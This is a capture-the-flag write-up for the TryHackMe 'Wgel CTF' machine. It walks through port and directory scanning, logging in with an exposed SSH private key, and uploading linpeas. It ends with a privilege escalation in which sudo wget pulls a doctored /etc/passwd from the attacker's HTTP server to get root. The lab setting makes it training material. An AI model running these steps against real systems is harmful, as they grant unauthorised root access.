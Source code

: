 <div align = "center">
Sep 25, 2021, Saturday<br>
Notes by: Mayank Kumar Prajapati<br>
Machine Name: wgel ctf<br>
URL: https://tryhackme.com/room/wgelctf
</div>

`export IP="10.10.191.127"`

## Nmap Scan:
``` bash
└─# nmap -sC -sV -T4 $IP   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-25 07:23 EDT
Stats: 0:00:30 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 07:24 (0:00:07 remaining)
Stats: 0:00:37 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 07:24 (0:00:14 remaining)
Nmap scan report for 10.10.191.127
Host is up (0.37s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.89 seconds
```
## Task 1
1. User flag.
```
***
```
**Viewing Source code of Apache default page:**
![Apache Source code](./images/apachedefaultpage.png)

**Directory  Bursting**<br>
``` bash
└─# gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.191.127/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/25 07:40:35 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 11374]
/server-status        (Status: 403) [Size: 278]  
/sitemap              (Status: 301) [Size: 316] [--> http://10.10.191.127/sitemap/]

``` 
``` bash
└─# gobuster dir -u http://$IP/sitemap/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.191.127/sitemap/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/09/25 07:42:40 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.ssh                 (Status: 301) [Size: 321] [--> http://10.10.191.127/sitemap/.ssh/]

```

Tried each and every directory listed above, nothing seems to be working, most of them are not accessible.
Finally found private key in `.ssh` directory. We already found from the comment inside source code of `apache page`.
``` bash
└─# chmod 600 jessie_id_rsa
└─# ssh -i jessie_id_rsa jessie@$IP
The authenticity of host '10.10.191.127 (10.10.191.127)' can't be established.
ECDSA key fingerprint is SHA256:9XK3sKxz9xdPKOayx6kqd2PbTDDfGxj9K9aed2YtF0A.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.191.127' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


8 packages can be updated.
8 updates are security updates.

jessie@CorpOne:~$ find | grep flag
./Documents/user_flag.txt

```
Now you can find root flag easily.


2. Root flag.
```
***
```
Lets transfer linpeas for finding path to privilege escalation. It can be done via secure copy (SCP) or also using a python simple HTTP server. <br>
Lets try to use `scp` this time as port 22 is open.<br>
**Note*** Inside linux based OS temporary files stored under `/dev/shm` directory. Most of the time this directory is writable and it is advisable there is a requirement of transferring malicious files into the system then store those files inside this directory to avoid `Write Permission Denied` issue.
```bash
└─# scp -i jessie_id_rsa /root/Desktop/transfer/linpeas.sh jessie@10.10.235.91:/dev/shm
linpeas.sh                                                                                                                                                100%  462KB 358.4KB/s   00:01    
 
```
Now navigate to `/dev/shm` directory in the ssh session that we have already taken of this machine and try to execute `linpeas.sh` to find escalatuion path.
```bash
User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
Lets try [GTFObins](https://gtfobins.github.io/gtfobins/wget/#sudo) to find out escalation path using wget. As we have download permission using `wget` sudo privileges. We will try to download `passwd` file whose root password we will manage and we will replace the original `passwd` file in victim's system by our modified file.
```python3
└─# python3                                                                                                                                                                               1 ⨯
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import crypt
>>> crypt.crypt("simplepass")
'$6$Wa5vl9Sqloa8cOCW$nkI75.Pc6U0UlcVG/cmNrLxBELrVgXLcuqpCImJf2OzJ.Z/pId6RfOV7xqWDbAzoIle6.Ri8XJXWteLfo2sqC.'
>>>
```
Let's copy paste this string in place of x inside passwd file which is currently on our local system.
```bash
┌──(root💀kali)-[~/Desktop/transfer]
└─# ls     
linpeas.sh  passwd  pentestmonkey.php
                                                                 
┌──(root💀kali)-[~/Desktop/transfer]
└─# python -m SimpleHTTPServer 8080
```
On victim's system execute the following.
```bash
jessie@CorpOne:/dev/shm$ cp /etc/passwd ./passwd.bak
jessie@CorpOne:/dev/shm$ ls
linpeas.sh  passwd.bak  pulse-shm-1285657475  pulse-shm-1665596888  pulse-shm-2287659282  pulse-shm-2914594193  pulse-shm-465583087
jessie@CorpOne:/dev/shm$ sudo wget http://10.9.155.203:8080/passwd -O /etc/passwd
--2021-09-27 09:04:46--  http://10.9.155.203:8080/passwd
Connecting to 10.9.155.203:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2397 (2,3K) [application/octet-stream]
Saving to: ‘/etc/passwd’

/etc/passwd                                     100%[=====================================================================================================>]   2,34K  --.-KB/s    in 0s      

2021-09-27 09:04:46 (5,39 MB/s) - ‘/etc/passwd’ saved [2397/2397]
```
Now switch to root with password 'simplepass'.
```bash
jessie@CorpOne:/dev/shm$ su - root
Password: 
root@CorpOne:~# 
```

